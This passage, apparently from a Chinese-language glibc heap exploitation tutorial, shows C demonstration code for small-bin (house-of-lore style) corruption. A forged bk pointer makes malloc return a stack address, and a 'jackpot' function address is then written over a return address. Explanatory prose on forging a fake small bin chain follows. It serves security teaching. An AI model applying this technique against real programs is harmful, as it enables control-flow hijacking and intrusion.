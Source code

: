 ```c
   fprintf(stderr, "现在 victim chunk 的 fd 和 bk 更新为 unsorted bin 的地址\n");
   fprintf(stderr, "victim->fd: %p\n", (void *)victim[0]);
   fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);
 
   fprintf(stderr, "现在模拟一个可以覆盖 victim 的 bk 指针的漏洞，让他的 bk 指针指向栈上\n");
   victim[1] = (intptr_t)stack_buffer_1;
 
   fprintf(stderr, "然后申请跟第一个 chunk 大小一样的 chunk\n");
   fprintf(stderr, "他应该会返回 victim chunk 并且它的 bk 为修改掉的 victim 的 bk\n");
   void *p3 = malloc(100);
 
   fprintf(stderr, "最后 malloc 一次会返回 victim->bk 指向的那里\n");
   char *p4 = malloc(100);
   fprintf(stderr, "p4 = malloc(100)\n");
 
   fprintf(stderr, "\n在最后一个 malloc 之后，stack_buffer_2 的 fd 指针已更改 %p\n",stack_buffer_2[2]);
 
   fprintf(stderr, "\np4 在栈上 %p\n", p4);
   intptr_t sc = (intptr_t)jackpot;
   memcpy((p4+40), &sc, 8);
 }
 ```

​    运行结果。

 ![image-20211226161102216](/images/heap/image-20211226161102216.png)

​    在前面的技术中，我们已经知道怎样去伪造一个fake chunk，接下来，我们要尝试伪造一条small bins链。

​    首先创建两个chunk，第一个是我们的victim chunk，请确保它是一个small chunk，第二个随意，只是为了确保在free时victim chunk不会被合并进top chunk 里。然后，在栈上伪造两个fake chunk，让fake chunk 1的fd指向victim chunk，bk指向fake chunk 2，fake chunk 2的fd指向fake chunk 1，这样一个small bin链就差不多了。
